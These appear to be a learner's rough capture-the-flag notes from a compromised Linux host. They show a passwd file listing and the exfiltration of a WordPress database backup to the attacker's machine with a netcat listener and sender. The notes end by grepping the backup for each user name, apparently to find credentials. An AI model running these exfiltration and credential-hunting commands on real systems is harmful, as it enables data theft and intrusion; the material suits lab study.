 usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
think:x:1000:1000:,,,:/home/think:/bin/bash
fwupd-refresh:x:113:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
xavi:x:1001:1001::/home/xavi:/bin/bash
diego:x:1002:1002::/home/diego:/bin/bash
gege:x:1003:1003::/home/gege:/bin/bash
ssm-user:x:1004:1006::/home/ssm-user:/bin/sh
ubuntu:x:1005:1008:Ubuntu:/home/ubuntu:/bin/bash

# root

# think:x:1000:1000:,,,:/home/think:/bin/bash

$ ls /opt/
wp_backup.sql

cat /opt/wp_backup.sql
cat /opt/wp_backup.sql | grep think

move to local this file

# me

nc -lvnp 1234 > received.txt

# target

nc 10.8.136.212 1234 < /opt/wp_backup.sql

# home user list

diego
gege
ssm-user
think
ubuntu
xavi

cat received.txt | grep think
cat received.txt | grep diego
cat received.txt | grep gege
cat received.txt | grep ssm-user
cat received.txt | grep ubuntu
cat received.txt | grep xavi
